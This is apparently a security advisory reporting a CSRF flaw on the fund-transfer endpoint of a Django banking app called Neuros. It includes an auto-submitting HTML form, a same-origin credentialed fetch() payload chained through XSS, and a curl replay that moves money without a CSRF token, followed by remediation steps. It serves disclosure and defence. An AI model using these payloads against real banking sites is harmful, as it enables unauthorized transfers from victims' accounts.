

# Description

Cross-Site Request Forgery (CWE-352) on the bank transfer endpoint `POST /banking/dashboard/` (`form_type=transfer_form`). The `account()` view in `Bank/views.py` is `@csrf_exempt`, so an authenticated Neuros fund transfer can execute without a `csrfmiddlewaretoken` body field or an `X-CSRFToken` header. Recipient and amount are attacker-controlled, subject to the account balance and recipient validation, with no confirmation step.

The PIN-session check in `account()` occurs after the POST handling, so it does not protect the transfer path.

The session cookie's `SameSite=Lax` setting normally prevents it from being sent with cross-site POST forms in modern browsers. Consequently, the standalone HTML PoC does not by itself demonstrate an authenticated cross-site transfer. A same-origin stored XSS could issue a credentialed `fetch()`, but that is a separate attack scenario and does not establish that the missing CSRF protection is exploitable from an external site.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Capture a normal transfer; note the body has no CSRF token. | Identifies the unprotected transfer request. |
| 2 | Replay the POST using an authenticated session, without any CSRF token. | `302` — no CSRF rejection. |
| 3 | Check the transaction history or account balances. | Confirms that the transfer was executed. |

# PoC

**Standalone HTML PoC (auto-submits on load):**

```html
<form method="POST" action="https://<TARGET>/banking/dashboard/">
  <input type="hidden" name="form_type" value="transfer_form">
  <input type="hidden" name="recipient" value="5659365982437126">
  <input type="hidden" name="amount" value="20">
</form>
<script>document.forms[0].submit()</script>
```

This form illustrates a cross-site POST attempt. With `SameSite=Lax`, the victim's session cookie is normally not included, preventing an authenticated transfer through this method alone.

**XSS-chain PoC (same-origin credentialed request):**

```javascript
fetch('/banking/dashboard/', {method:'POST', credentials:'include',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'form_type=transfer_form&recipient=5659365982437126&amount=20&note='});
```

This request can include the victim's session when executed by a same-origin XSS. However, a same-origin XSS can generally bypass conventional CSRF protections as well.

**Observed server response without a CSRF token:**

```text
HTTP/2 302 Found
Set-Cookie: messages=...   → "Successfully transferred 20.00 NE to account 5659365982437126."
```



The original cross-origin test with `Origin: https://attacker.example` was also accepted without a `403`. This confirms the absence of server-side origin rejection in that test, but does not establish whether a browser would send the session cookie.

**Local validation:**

An authenticated POST without a CSRF token was reproduced on the local instance using a disposable banking account and a transfer of `0.01 NE`.

```bash
curl -sS -i -b test.cookies \
  -X POST "http://localhost:8000/banking/dashboard/" \
  --data-urlencode "form_type=transfer_form" \
  --data-urlencode "recipient=<TEST_RECIPIENT_PAYMENT_NUMBER>" \
  --data-urlencode "amount=0.01"
```

The transfer was confirmed through the banking data. A `302` response alone is insufficient proof because the view also redirects after failed transfers.

# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly. |
| Integrity | Unauthorized, attacker-defined fund transfers are possible when a request is sent with the victim's authenticated session. |
| Availability | Repeated unauthorized transfers could deplete the victim's balance. |

Overall severity: **High** — direct financial impact from an authenticated transfer endpoint that does not enforce CSRF protection or the dashboard's PIN-session check before processing POST requests. Browser-based cross-site exploitation is limited by `SameSite=Lax`; the same-origin XSS chain is a separate scenario.

# Remediation

1. **Apply `@csrf_protect`** to the transfer view (remove `@csrf_exempt`) so a valid CSRF token is required.
2. **Do not rely on `SameSite=Lax`** as the sole CSRF control.
3. **Enforce the banking PIN-session check before processing transfers**, not only before rendering the dashboard.
4. **Add a confirmation / re-authentication step** for sensitive transfers.

# Author

TéléHack
